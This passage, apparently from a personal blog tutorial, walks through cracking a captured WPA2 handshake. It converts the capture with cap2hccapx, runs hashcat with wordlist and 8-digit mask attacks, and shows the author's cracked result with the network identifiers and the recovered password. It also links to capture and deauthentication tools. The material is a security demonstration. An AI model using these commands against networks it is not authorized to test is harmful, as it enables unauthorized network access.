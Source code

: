 .1. Generating HCCPAX File
```
cap2hccapx capture.cap capture.hccapx
```
Hashcat doesn’t take cap files, only hccapx files. So we need convert this files. Other way to made it is use a [online tool](https://hashcat.net/cap2hccapx/).

Review the result. You should see the phrase `Networks detected: X... Written X WPA Handshakes`. The example of success result is:
```
Networks detected: 1
[*] BSSID=6e:57:ca:24:09:8c ESSID=Ruslan Gainanov (Length: 15)
--> STA=14:16:9e:67:7e:c5, Message Pair=0, Replay Counter=1
--> STA=14:16:9e:67:7e:c5, Message Pair=2, Replay Counter=1
--> STA=14:16:9e:67:7e:c5, Message Pair=0, Replay Counter=1
--> STA=14:16:9e:67:7e:c5, Message Pair=2, Replay Counter=1

Written 4 WPA Handshakes to: capture.hccapxn
```

.2. Now, everything are right to execute the **hashcat**. We can use a wordlist or a pattern to broke a password.
Using a wordlist (example of wordlists - https://github.com/kennyn510/wpa2-wordlists.git):
```
hashcat -m 2500 capture.hccapx wordlist.txt
```
Using a pattern - 8 digits:
```
hashcat -m 2500 -a3 capture.hccapx "?d?d?d?d?d?d?d?d"
```
For more examples press [here](https://hashcat.net/wiki/doku.php?id=cracking_wpawpa2). For more patterns, see the [documentation](https://hashcat.net/wiki/doku.php?id=mask_attack).

## my results

I use the hashcat with pattern, that works on GPU.
On my MacBook Pro, it yields a performance of 41kH/s: it tests 41000 passwords in a second.

[![giphy]({{ site.url }}{{ site.baseurl }}/assets/images/wifi-crack/giphy.gif)]({{ site.url }}{{ site.baseurl }}/assets/images/wifi-crack/giphy.gif){: .align-center}

```
OpenCL Platform #1: Apple
=========================
* Device #1: Intel(R) Core(TM) i7-7700HQ CPU @ 2.80GHz, skipped.
* Device #2: Intel(R) HD Graphics 630, 384/1536 MB allocatable, 24MCU
* Device #3: AMD Radeon Pro 555 Compute Engine, 512/2048 MB allocatable, 12MCU

Speed.#2.........:     6578 H/s (6.48ms) @ Accel:8 Loops:4 Thr:256 Vec:1
Speed.#3.........:    35286 H/s (10.78ms) @ Accel:32 Loops:16 Thr:256 Vec:1
Speed.#*.........:    41864 H/s
```

The cracking a WiFi password consists 8 digits took me twenty minutes (20 mins, 17 secs).

```
12822b8013c116a3dff33d4bbc3fb2cb:6e57ca24098c:14169e677ec5:Ruslan Gainanov:12345670

Session..........: hashcat
Status...........: Cracked
Hash.Type........: WPA-EAPOL-PBKDF2
Hash.Target......: capture.hccapx
Time.Started.....: Fri Jul 17 18:11:20 2020 (20 mins, 17 secs)
Time.Estimated...: Fri Jul 17 18:31:37 2020 (0 secs)
Guess.Mask.......: ?d?d?d?d?d?d?d?d [8]
Guess.Queue......: 1/1 (100.00%)
Speed.#2.........:     6583 H/s (6.76ms) @ Accel:8 Loops:4 Thr:256 Vec:1
Speed.#3.........:    33997 H/s (10.02ms) @ Accel:32 Loops:16 Thr:256 Vec:1
```

[aircrack]: https://www.aircrack-ng.org/
[hashcat]: https://hashcat.net
[wireshark]: https://www.wireshark.org/
[hcxtools]: https://github.com/ZerBea/hcxtools
[jamwifi]: http://macheads101.com/pages/downloads/mac/JamWiFi.app.zip